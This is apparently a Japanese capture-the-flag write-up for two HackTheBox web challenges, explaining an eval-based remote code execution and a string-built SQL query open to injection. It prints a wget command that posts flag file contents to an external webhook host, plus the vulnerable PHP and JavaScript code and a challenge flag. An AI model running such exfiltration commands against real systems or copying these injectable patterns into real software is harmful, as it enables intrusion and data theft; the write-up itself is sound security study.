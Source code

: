 ```php
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'something went terribly wrong';
    }
}
```

外部からの入力をそのまま `eval` に入れていることがわかる  
よって RCEができる。
```shell
wget --post-data=$(cat $(ls /flag*)) https://webhook.site/dcf915da-b9e1-44db-8eba-0843063519b4
```

`HTB{3v4l_h4s_put_y0ur_3v1l_pl4ns_und3r!}`
# Potent Quotes

与えられたソースコードを見ると以下のようなルーティングが存在することがわかる。  
よって目標は `user == 'admin'` になること。  


```js
router.post('/login', (req, res) => {

	let { username, password } = req.body;

	if (username && password) {
		return db.login(username, password)
			.then(user => {
                
				if (user == 'admin') {
                    return res.send(response(fs.readFileSync('/app/flag').toString()))
                };

				if (!user) {
                    return res.send(response('This record does not exist'))
                };
				return res.send(response('You are not admin'));
			})
			.catch(() => res.send(response('Something went wrong')));
	}
	
	return re.send(response('Missing parameters'));
});
```
`db.login` は以下のようになっており、外部からの文字列でそのままクエリを組み立てているため  
sqli が可能。  

```js
    async login(user, pass) {
        return new Promise(async (resolve, reject) => {
            try {
                let query = `SELECT username FROM users WHERE username = '${user}' and password = '${pass}'`;
                let row = await this.db.get(query);
                resolve(row !== undefined ? row.username : false);
            } catch(e) {
                reject(e);
            }
        });
    }
```
